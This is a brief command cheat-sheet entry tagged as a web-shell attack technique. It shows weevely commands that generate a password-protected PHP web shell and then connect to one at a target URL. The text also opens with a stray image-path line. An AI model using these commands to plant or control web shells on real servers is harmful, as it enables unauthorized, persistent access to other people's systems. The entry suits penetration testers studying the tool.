 # web shell

% web, shell, webshell, shellweb, weevely
#platform/linux #target/local #cat/ATTACK/WEB_SHELL 

## weevely web shell generation with output file
```
weevely generate <password> <output_file|web_shell.php>
```

## weevely web shell connection
```
weevely <url> <password>
```
